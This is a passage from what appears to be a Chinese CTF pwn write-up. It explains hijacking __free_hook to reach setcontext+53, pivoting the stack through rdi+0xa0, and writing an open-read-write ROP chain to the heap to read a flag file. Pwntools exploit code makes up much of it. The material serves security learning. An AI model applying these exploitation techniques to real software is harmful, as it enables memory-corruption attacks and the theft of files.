    setcontext中利用的栈迁移指令，和leave；ret指令不一样（需要rbp寄存器中转一下），迁移的地址可以用rdi+0xa0寻址找到：

   ![image-20240723214730798](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407232147972.png)

   当free掉chunk50时，chunk50的地址**heap_addr+0x2000** (没有chunk头，**free时的地址直接是data域**)会给到rdi寄存器，此时free_hook会跳转到setcontext+53 ==> 利用**rdi+0xa0寻址**，取出该地址处(heap_addr+0x2000+0xa0)的值给rsp寄存器，作为新的栈，**最后执行ret**就会直接从该栈地址处再取出指令的地址执行，即取出我们构造的ORW指令的地址：

   ![image-20240723213418154](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407232134422.png)

   ![image-20240723215208111](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407232152365.png)

   ![image-20240723180958552](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407231809747.png)

4. 准备ORW并写入到堆上：

   ```python
   # 准备ORW
   pop_rdi=libc_base+0x00000000000215bf
   pop_rdx=libc_base+0x0000000000001b96
   pop_rax=libc_base+0x0000000000043ae8
   pop_rsi=libc_base+0x0000000000023eea
   ret=libc_base+0x8aa
   open=libc.sym['open']+libc_base
   read=libc.sym['read']+libc_base
   write=libc.sym['write']+libc_base    
   # syscall = read_addr+15
   syscall = write_addr+18
   flag=heap_addr+0x1000   
   setcontext=libc.sym['setcontext']+libc_base+53  #prepare
   
   #open(0,flag) (open will delete environment)
   orw =p64(pop_rdi)+p64(flag)
   orw+=p64(pop_rsi)+p64(0)
   orw+=p64(pop_rax)+p64(2)	#传递open函数的系统编号
   orw+=p64(syscall)     #不能直接调用open函数，用 syscall
   
   #read(3,heap+0x1010,0x30) 
   orw+=p64(pop_rdi)+p64(3)
   orw+=p64(pop_rsi)+p64(heap_addr+0x1010)#存放读取的flag
   orw+=p64(pop_rdx)+p64(0x30)
   orw+=p64(read)     
   
   #write(1,heap+0x1010,0x30)
   orw+=p64(pop_rdi)+p64(1)
   orw+=p64(pop_rsi)+p64(heap_addr+0x1010)#输出读取的flag地址
   orw+=p64(pop_rdx)+p64(0x30)
   orw+=p64(write)
   
   # 向堆上写入ORW
   add(0x38)
   edit(b"./flag\x00\x00")   #写入flag
   
   #堆上写入栈迁移的地址heap_addr+0x3000，迁移完成后在这里执行写好的指令
   add(0x58)
   edit(p64(heap_addr+0x3000)+p64(ret)) #加ret时为例平衡setcontext中的push指令
   
   #分两次向堆写入ORW
   add(0x68)
   edit(orw[:0x60])
   add(0x78)
   edit(orw[0x60:])
   
   #修改free_hook指向setcontext+53
   ```